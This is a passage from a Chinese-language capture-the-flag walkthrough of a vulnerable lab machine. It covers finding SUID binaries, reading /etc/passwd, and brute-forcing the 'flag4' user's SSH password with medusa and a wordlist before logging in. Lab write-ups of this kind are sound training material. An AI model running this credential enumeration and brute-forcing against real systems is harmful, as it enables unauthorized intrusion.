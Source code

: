 > Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow. 
>
> flag3提示我们使用 find 执行操作



### FLAG4

```bash
find / -type f -perm -u=s 2>/dev/null
```

![image-20230321151901622](https://s3.xiabee.cn/pic/2023/03/fe64dfcb5e1e2cd32c8a7bfacea342107a11476b637f457346b01def6172c0b5.png)



发现 find 命令被设置为 suid 权限位，可以以 sudo 权限执行命令 

这个先放一边，我们再康康有没有其他有用信息。



查看用户：

```bash
cat /etc/passwd
```

![image-20230321151957821](https://s3.xiabee.cn/pic/2023/03/35d1966e33d863c121b29f6dddcd3a15854814bcfff468fe76209926c2675cbd.png)

发现一个名为 flag4 的用户

试试能不能直接访问：

```bash
cd /home/flag4
ls
cat flag4.txt
```



发现能直接访问...... 其实还有一一种办法进入 flag4，回到 kali 终端，暴力破解：

```bash
medusa -M ssh -h 192.168.80.139 -u flag4 -P /usr/share/john/password.lst -e ns -F 
```

![image-20230321152104102](https://s3.xiabee.cn/pic/2023/03/392f29b78a81b2872defd9361b34831fc28ef3f01eedc02e67e0e76aab7a7132.png)

暴力破解 flag4



最后得到flag4的用户密码为orange（出题人是有多喜欢橘子......）

![image-20230321152134824](https://s3.xiabee.cn/pic/2023/03/a0c4dff6978338cd65af2c1151392ee5032c7d998561112a2eef7bb0faeebc9c.png)



然后ssh登陆flag4：

```bash
ssh flag4@192.168.80.139
```
